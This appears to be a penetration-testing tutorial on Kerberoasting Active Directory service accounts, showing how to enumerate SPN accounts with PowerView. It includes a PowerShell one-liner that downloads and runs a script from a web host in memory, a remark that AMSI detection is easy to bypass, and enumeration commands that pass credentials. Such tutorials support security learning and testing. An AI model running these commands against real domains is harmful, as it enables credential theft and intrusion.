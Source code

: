 

Kerberoasting is an extremely common attack in active directory environments which targets Active Directory accounts with the SPN value set. Common accounts with the SPN **(Service Principal Name)** set are service accounts such as IIS User/MSSQL etc. 



Kerberoasting involves requesting a Kerb Service Ticket (TGS) from a Windows Domain Machine or Kali Box using something like **GetUserSPN's.py**. The problem with **TGS** is once the the **DC** looks up the target **SPN** it encrypts the **TGS** with the **NTLM Password Hash** of the targeted user account.



### [](#header-3)From Windows



There are numerous ways to enumerate service accounts and find Kerberoast targets so I will cover a few below, both from Windows Machines & Linux Machines.



#### [](#header-4)Powerview

The First will be PowerView.ps1 - If you have not heard of PowerView.ps1 by now and you are researching Kerberos attacks then you need to go back a little... 

PowerView is an insanely powerful **.ps1** created by Harmj0y which makes Enumerating & Exploiting AD Environments with PowerShell extremely easy. Even though Powershell is extremely monitored in this day and age by defenders it is still highly useful.

`https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1`



**Enumeration**

First let's import `PowerView.ps1` into Memory with 

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://werbserver:80/PowerView.ps1')
```



Of course `AMSI` will probably catch this on `WIN10 1803` but I will leave evasion upto yourselfs. There are numerous bypasses in my `h4cks` Repo and numerous out there online. `AMSI` is just string detection so it's easy to slip past.

Now with PowerView in memory on a **Domain-Joined Machine** we can simply run

```powershell
Get-DomainUser -SPN
```



The ```Get-DomainUser``` function also supports the `-Credential` switch which allows you to pass a seperate credential through. For ex.

```
$secpasswd = ConvertTo-SecureString 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('m0chan\user', $secpasswd)

Get-DomainUser -SPN -Credential $cred
```
